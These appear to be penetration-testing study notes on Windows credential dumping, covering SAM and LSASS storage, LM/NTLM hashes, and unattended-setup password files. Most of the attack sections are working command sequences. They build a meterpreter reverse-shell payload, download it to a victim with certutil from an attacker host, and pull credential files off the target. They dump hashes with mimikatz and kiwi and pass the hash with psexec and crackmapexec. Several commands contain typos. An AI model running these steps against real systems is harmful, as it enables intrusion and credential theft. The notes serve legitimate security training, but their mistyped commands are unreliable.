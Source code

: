 # Windows Credential Dumping 
### Windows Password Hashes
- stored locally in the SAM (Security Accounts Manager) database
- authentication and verification of user credentials is facilitated by the Local Security Authority(LSA)
- NTLM hashing format
- SAM Database
	- responsible for managing user accounts and passwords
	- cannot be copied while the OS is running
	- Windows NT kernel keeps the SAM file locked
	- SAM hashes can be  dumped from the LSASS process
	- modern versions of windows, SAM DB is encrypted with a syskey
	- Elevated/Administrative privileges are required to access and interact with the LSASS process
- LM 
	- LanMan hashing algorithm
	- was implemented on windows OS
	- does not include salts
	- weak and outdated
- NTLM
	- NTHash
	- from windows vista onward
	- case sensitive
	- does not split the hash into two chunks
	- allows the user of symbols the Unicode characters
	- MD4 algorithm

### Searching for Passwords in Windows Configuration Files
- Unattended Windows Setup utily
- can be found 
	- C:\Windows\Panther\Unattend.xml
	- C:\Windows\Panther\Autounattend.xml
	- passwords stored by base64
- approach example
	- `$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST= LPORT= -f exe > payload.exe`
	- `$ python -m SimpleHTTPServer 80 - hosting web server`
	- download the payload on the victim computer
	- open cmd
	- `cd Desktop\`
	- `certutil -urlcache -f http://yourip/payload.exe payload.exe`
	- shut down the web server
	- `$ service postgresql start && msfcon`
	- `$ use multi/handler`
	- set payload windows/x64/meterpreter/reverse_tcp
	- configure the options
	- `run`
	- execute the payload on target sys
	- `$ sysinfo`
	- `$ cd C:\\`
	- `$ cd Panther`
	- `$ dir`
	- `$ download unattend.xml`
	- decode the password
	- `base64 -d password.txt`
	- `psexec.py Administrator@10.10.10.10`

### Dumping Hashes with Mimikatz
- Mimikatz	
	- Post-exploitation tool
	- extraction of clear-text passwords, hashes and Kerberos tickets from memory
	- from lsass.exe process
	- require elevated privileges to run correctly
- process
	- Nmap scan to find potentially vulnerable services
	- `$ service postgresql start && msfcon`
	- `$ search badblue`
	- `$ use 1`
	- configure options and run
	- `$ getuid`
	- `$ pgrep lasass`
	- `$ migrate`
	- `$ load kiwi` - build-in meterpreter module
	- `$ ?`
	- `$ lsa_dump_sum`
	- `$ lsa_dump_secrets`
	- using mimiktz
		- upload the mimikatz.exe to your target system
		- run mimikatz
		- `$ privilege::debug`
		- if answer was 20 ok, you have the required privileges
		- `$ lsadump::sam`
		- `$ lsadump::secrets`
		- `$ sekurlsa::logonpasswords`
### Pass-The-Hash Attacks
- Exploitation technique that involves capturing or harvesting NTLM hashes or clear-text passwords and using them to authenticate with the target legitimately
- tools
	- Metasploit PsExec module
	- Crackmapexec
- process
	- load kiwi -- in meterpreter
	- lsa_dump_sam -- to get the NTLM hashes 
	- after gaining the hashes with kiwi
	- you need the LM hash - hashdump - LMhash:NTLMhash
	- `Search psexec`
	- `use 9`
	- `show options LPORT, RHOSTS, SMBUSER, SMBPass`
	- `set target Native\upload`
	- `exploit`
	- crackmapexec smb 192.168.0.1 -u username -H "NTLM Hash" -x "whoami"

